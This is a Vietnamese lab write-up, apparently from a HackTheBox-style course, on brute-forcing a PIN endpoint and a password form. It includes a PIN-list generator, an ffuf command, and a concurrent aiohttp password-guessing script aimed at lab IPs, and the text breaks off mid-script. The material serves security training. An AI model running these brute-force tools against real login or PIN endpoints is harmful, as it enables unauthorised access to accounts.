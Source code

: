
Còn một cách nữa nhanh hơn rất nhiều, chúng ta sẽ tạo một danh sách mã PIN 0000->9999 sau đó dùng tool như ffuf

```python
with open ('4-digits-PIN.txt','w') as f:
     for pin in range(10000):
         f.write(f'{pin:04d}\n')
```

Dùng fuff

```zsh
ffuf -w PINs.txt:FUZZ -u http://94.237.55.43:34552/pin?pin=FUZZ -mc 200
```

# Dictionary Attacks
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.121.185:30966   

Life Left: 75 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing the target using the script, what is the full flag the script returns?
```python
import aiohttp  
import asyncio  
from tqdm.asyncio import tqdm_asyncio  
import sys  
  
ip = '94.237.121.185'  # Change this  
port = 30966  # Change this  
TIMEOUT = 5  
CONCURRENT_LIMIT = 100  
STOP_EVENT = asyncio.Event()  
  
  
async def try_password(session, password, semaphore):  
    if STOP_EVENT.is_set():  
        return None  
  
    url = f"http://{ip}:{port}/dictionary"  
    payload = {'password': password}  # Điều chỉnh theo form  
  
    try:  
        async with semaphore:  
            if STOP_EVENT.is_set():  
                return None  
  
            async with session.post(  
                    url,  
                    data=payload,  # Hoặc json=payload nếu là JSON  
                    timeout=aiohttp.ClientTimeout(total=TIMEOUT)  
            ) as response:  
  
                # Logic kiểm tra response thành công  
                if response.status == 200:  
                    text = await response.text()  
                    if "flag" in text:  # Điều chỉnh theo response  
                        STOP_EVENT.set()  
                        return password, text  
                    # Hoặc kiểm tra response code đặc biệt  
```